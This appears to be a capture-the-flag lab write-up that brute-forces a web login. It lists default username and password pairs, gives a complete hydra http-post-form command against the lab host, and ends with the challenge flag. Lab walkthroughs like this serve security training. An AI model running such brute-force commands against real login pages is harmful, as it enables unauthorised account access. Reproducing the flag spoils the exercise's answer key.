 # Day 3 - Christmas Chaos (Web Exploitation)

1. Go to `http://10.10.233.85` and try to sign in with credentials `a:a`. Look at debug tools network tab and see it is POSTing to the `/login` endpoint with payload `username=a&password=a`.

2. Create `usernames.txt` and `passwords.txt` with the provided usernames and passwords, respectively.

    | Username | Password |
    |----------|----------|
    | root     | root     |
    | admin    | password |
    | user     | 12345    |

3. Run hydra brute force command: `hydra -L usernames.txt -P passwords.txt -F 10.10.233.85 -s 80 http-post-form "/login:username=^USER^&password=^PASS^:Your password is incorrect"`. I found the `Your password is incorrect` in the website source code after trying to sign in with `a:a`.

4. What is the flag? `THM{885ffab980e049847516f9d8fe99ad1a}`
